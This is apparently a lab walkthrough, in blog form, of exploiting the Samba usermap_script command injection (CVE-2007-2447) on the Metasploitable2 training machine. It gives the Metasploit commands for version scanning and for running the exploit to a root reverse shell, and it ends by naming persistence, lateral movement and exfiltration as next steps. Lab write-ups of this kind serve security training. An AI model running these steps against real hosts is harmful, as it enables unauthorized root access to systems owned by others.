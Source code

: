 ## Metasploitable2 Port 139 SMB Exploit
**ZM
November 11, 2024**

#### Port 139
Runs a NetBIOS Session Service and is often used by SMB (Server message block) protocol. SMB is a protocol primarily used for file sharing, printer sharing, and network browsing. Samba, the open source implementation of SMB, is widely used on linux systems to provide SMB functionality. 

#### Samba Usermap Script Vulnerability (CVE-2007-2447)
The vulnerability is a command injection flaw in Samba's usermap script. Samba allows admins to define custom mappings between Unix users and SMB users via the username map. However, a flaw in this feature allows an attacker to inject arbitrary commands by manipulating the script's output. 

Basic Vulnerbaility Flow:
1. Samba's `usermap` feature is used to map incoming SMB usernames to specific Unix accounts. 
2. By crafting a specially formatted username, an attacker can inject commands that Samba will execute on the system with the priveleges of the Samba service (often root)

#### High Level Strategy for Exploitation
1. Confirm that Samba is running and determine the version. You can use `smb_version` auxiliary scanner in Metasploit. 
2. If running a vulnerable version, use CVE-2007-2447
3. Use `usermap_script` in Metasploit to run the exploit and gain shell access


#### Walkthrough
On Kali, Launch Metasploit with `msfconsole`:
![Metasploit Launch Screen](assets/img/MS2_139_IMG1.png)

Search for the auxiliary SMB scanner with `search smb_version`:
![SMB Auxiliary Search](assets/img/MS2_139_IMG2.png)

Select it with `use 0` then enter the command `show options` to see the parameters:
![Select the scanner and show options](assets/img/MS2_139_IMG3.png)

This shows us that we just need to specify `RHOSTS`. We will enter the IP address of the Metasploitable2 target machine with `set RHOSTS <ipAddress>`. 

Then enter the command `exploit` to launch the scanner:
![Run the scanner](assets/img/MS2_139_IMG4.png)

This shows us that it's running Samba 3.0.20. This is compatible with CVE-2007-2447. 

Now, let's select the Samba exploit. Search `search cve-2007-2447`:
![Search for samba exploit](assets/img/MS2_139_IMG5.png)

Select it with `use 0`, then enter `show options` to see the parameters:
![Select the exploit and show options](assets/img/MS2_139_IMG6.png)

This shows us that we only need to set the RHOSTS. Do this with the same command from earlier `set RHOSTS <ipAddress>`

Next, enter `exploit` to launch the attack:
![Launch the exploit](assets/img/MS2_139_IMG7.png)

We have successfully opened a reverse shell on the target machine! Enter the command `whoami` to determine your level of privilege:
![whoami command](assets/img/MS2_139_IMG8.png)

Root access basically means we have free reign to do whatever we want on the machine. From here we can establish persistence, attempt lateral movement, or exfiltrate sensitive data.

